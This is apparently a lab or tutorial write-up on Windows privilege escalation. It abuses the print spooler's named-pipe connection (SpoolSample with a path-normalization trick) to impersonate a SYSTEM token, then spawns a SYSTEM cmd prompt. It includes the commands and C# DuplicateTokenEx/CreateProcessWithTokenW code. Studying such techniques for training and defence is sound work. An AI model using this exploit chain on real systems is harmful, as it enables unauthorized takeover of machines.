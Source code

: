 ## Exploiting The Privilege
Now that we have our c coded application ready, we can start by getting a session as "NT AUTHORITY\Network Service" with the following command:

```cmd
psexec64 -i -u "NT AUTHORITY\Network Service" cmd.exe
```

![](../../../Screenshots/sa-nans.png)

Next, we execute it and supply a random pipe name.
```cmd
PrintSpooferNet.exe \\.\pipe\test
```

To simulate a connection, we can open an elevated command prompt and write to the pipe
```cmd
echo hello > \\localhost\pipe\test
```

![](../../../Screenshots/cp-fac.png)

Our code has impersonated a token and resolved the associated SID.

## Exploiting Spooler
It's now time to test our application leveraging the print spooler service.
Communication to the spooler service is done through _Print System Remote Protocol_ (MS-RPRN).
The MS-RPRN works through named pipes and the pipe name used by the print spooler service is 
```cmd
\pipe\spoolss".
```

The potential for abuse comes from the [_RpcOpenPrinter_](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/989357e2-446e-4872-bb38-1dce21e1313f) and [_RpcRemoteFindFirstPrinterChangeNotification_](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83) functions.
_RpcOpenPrinter_ allows us to retrieve a handle for the printer server, which is used as an argument to the _RpcRemoteFindFirstPrinterChangeNotification_.

The change notification requires the print spooler to access the print client. If we ensure that the print client is our named pipe, it will obtain a SYSTEM token that we can impersonate.
We will be using [SpoolSample](https://github.com/leechristensen/SpoolSample) C# implementation to exploit this.
We can also use the powershell script [SpoolScanner](https://github.com/vletoux/SpoolerScanner) for the same purpose.

For the exploit, when we use SpoolSample, we must specify the name of the server to connect to (the victim) and the name of the server we control (the attacker).
Because of local network, we have to use a workaround.

The print spooler service (running as SYSTEM on the victim) needs to contact the simulated print client (through our pipe) but since they are on the same host, they in effect require the same default pipe name 
```cmd
(pipe\spoolss)
```

Before attempting to access the client pipe, the print spooler service validates the pipe path, making sure it matches the default name "pipe\spoolss". 
Our arbitrary pipe "test" fails this validation and, consequently, the print spooler service doesn't even attempt to connect to the client.

To workaround this, we will be exploiting [path normalization](https://docs.microsoft.com/en-us/dotnet/standard/io/file-path-formats)

Providing the name appsrv01/test for our pipe changes to
```cmd
\\.\appsrv01\test\pipe\spoolss
```
as seen in process explorer, in an attempt to access the named pipe.
The request fails because we don't have a pipe of such name

We create a pipe server to listen for connections as follows:
```cmd
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss
```

and run the SpoolSample application:
```cmd
SpoolSample.exe appsrv01 appsrv01/pipe/test
```

![](../../../Screenshots/iss-r.png)

We see that the SID belongs to [SYSTEM account](https://docs.microsoft.com/en-us/windows/win32/secauthz/well-known-sids)

This means we do not have a way of authenticating the SYSTEM account to our named pipe, thus we're allowed to impersonate it.
We will now begin to exploit this impersonation token by launching a command prompt as SYSTEM.

## Launching CMD
We do this by using the Win32 [_CreateProcessWithTokenW_](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) API
For the API, the token must be a primary token, so we'll first use [_DuplicateTokenEx_](https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex) to convert the impersonation token to a primary token.

The parameters for _DuplicateTokenEx_ are:
1. hExistingToken - Token retrieved with _OpenThreadToken_
2. dwDesiredAccess - Desired access (Full access - 0xF01FF)
3. lpTokenAttributes - Security descriptors(default value NULL)
4. ImpersonateLevel - access type of current token(SecurityImpersonation value - 2)
5. TokenType - Type of token (set to primary with "1")
6. phNewToken - pointer to be populated with the new token handle

Importing the API:
```C#
[DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public extern static bool DuplicateTokenEx(IntPtr hExistingToken, uint dwDesiredAccess, IntPtr lpTokenAttributes, uint ImpersonationLevel, uint TokenType, out IntPtr phNewToken);
```

Invoking the API:
```C#
IntPtr hSystemToken = IntPtr.Zero;
DuplicateTokenEx(hToken, 0xF01FF, IntPtr.Zero, 2, 1, out hSystemToken);
```

Now that our primary token has been created, we can finally use _CreateProcessWithTokenW_ to launch a command prompt as Administrator.

The API requires following parameters:
1. hToken - Tokenhandle(our new duplicate primary token)
2. dwLogonFlags - logon options(set to default with "0")
3. lpApplicationName - Location for application(set to null)
4. lpCommandLine - command line to be executed(set to "cmd.exe")
5. dwCreationFlags - Creation flags (set to "0" for default)
6. lpEnvironment - set to default with NULL
7. lpCurrentDirectory - set to default with NULL
8. lpStartupInfo - populated at execution(structured to be declared)
9. lpProcessInformation - populated at execution(structure to be declared)

Creating the structures:
```C#
[StructLayout(LayoutKind.Sequential)]
public struct PROCESS_INFORMATION
{
    public IntPtr hProcess;
    public IntPtr hThread;
    public int dwProcessId;
    public int dwThreadId;
}

[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
public struct STARTUPINFO
{
    public Int32 cb;
    public string lpReserved;
    public string lpDesktop;
    public string lpTitle;
    public Int32 dwX;
    public Int32 dwY;
    public Int32 dwXSize;
    public Int32 dwYSize;
    public Int32 dwXCountChars;
    public Int32 dwYCountChars;
    public Int32 dwFillAttribute;
    public Int32 dwFlags;
    public Int16 wShowWindow;
    public Int16 cbReserved2;
    public IntPtr lpReserved2;
    public IntPtr hStdInput;
    public IntPtr hStdOutput;
    public IntPtr hStdError;
}
```

Importing the API:
```C#
[DllImport("advapi32", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithTokenW(IntPtr hToken, UInt32 dwLogonFlags, string lpApplicationName, string lpCommandLine, UInt32 dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
```

Invoking the function:
```C#
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
STARTUPINFO si = new STARTUPINFO();
si.cb = Marshal.SizeOf(si);
CreateProcessWithTokenW(hSystemToken, 0, null, "C:\\Windows\\System32\\cmd.exe", 0, IntPtr.Zero, null, ref si, out pi);
```

With the APIs in place, we can now compile our executable, execute it to listen for pipes, and connect to it using spoolsample:
we get a new cmd prompt as SYSTEM:

![](../../../Screenshots/ps-ss.png)